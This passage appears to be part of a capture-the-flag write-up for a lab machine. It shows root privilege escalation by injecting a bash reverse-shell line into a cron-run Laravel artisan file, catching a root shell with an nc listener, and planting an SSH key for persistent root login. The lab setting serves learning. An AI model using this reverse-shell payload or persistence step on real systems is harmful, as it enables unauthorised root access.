 	/home/noulis/.composer/cache/files/sebastian/environment/72b70c30c0946406c4562db7b7c647d084a87e12.zip
	/home/noulis/.composer/cache/files/sebastian/recursion-context/82276e6cc560a972510bb0c2dc0aa78fa4701777.zip
	```
	- Laravel files
	 ```bash
	 /var/www/laravel/.env
	 ```
- Coming back to the first file /var/www/laravel/artisan, we see that it is run every minute. Also it in the folder which can be edited by www-data
- So we can edit artisan bu adding  `exec("bash -c 'bash -i >& /dev/tcp/10.10.14.5/9002 0>&1'");` into the script after \<?php...?> tag first encountered .
- Also open a listener on port 9002.
	```bash
	nc -lnvp 9002
	listening on [any] 9002 ...
	
	connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 34696
	/bin/sh: 0: can't access tty; job control turned off
	# id
	uid=0(root) gid=0(root) groups=0(root)
	# 
	```
- Cat out the root.txt. Create a .ssh folder. Crete our own ssh-keygen on our local machine. Append pub key to the ssh folder in the other machine. Login as root when wanted.